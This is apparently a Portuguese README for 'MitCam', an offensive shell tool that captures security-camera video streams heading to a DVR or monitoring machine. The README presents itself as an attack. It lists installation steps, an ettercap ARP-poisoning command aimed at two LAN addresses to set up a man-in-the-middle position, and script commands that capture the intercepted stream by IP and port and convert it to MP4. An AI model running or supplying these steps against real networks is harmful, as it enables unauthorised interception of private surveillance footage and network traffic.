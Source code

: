 # MitCam

  Após um ARP poisoning em uma rede com câmeras de segurança, é possível (muitas vezes) capturar o Stream que está sendo transmitido em direção ao DVR ou a própria máquina de monitoramento. Em uma situação onde o Stream é enviado de um DVR, podemos interceptar a comunicação entre o ele e o cliente, identificar as portas de saída de dados, filtrar apenas o necessário e colocar tudo dentro de um arquivo.
  Em geral, os reprodutores de vídeo não reproduzem Stream. Por conta disso, convertemos nosso arquivo para um MP4. 

## Preparação:

Instale as dependências para o ataque:
`apt update`

`apt install ettercap arpspoof wireshark ffmpeg`

`git clone https://github.com/MZTBTG/mitcam.git`

`cd mitcam`

`chmod +x mitcam.sh`

Utilizando uma ferramenta como `ettercap` ou `arpspoof`, realize um ataque MitM entre seus alvos:
`ettercap -TqSM arp /192.168.180.150// /192.168.180.101//`

## Modo de uso:

`./mitcam.sh c [IP] [porta] [NomeArquivoSaida]`
  O comando que se inicia com **c** captura o stream de acordo com os dados que você adicionou na sintaxe.


`./mitcam.sh d [nomeDoArquivoCapturado] [nomeDoArquivoDeSaída] {vlc}`
  O comando que se inicia com **d** converte o arquivo de Stream capturado para mp4. É possível reproduzir automaticamente o vídeo digitando "vlc" no fim do comando
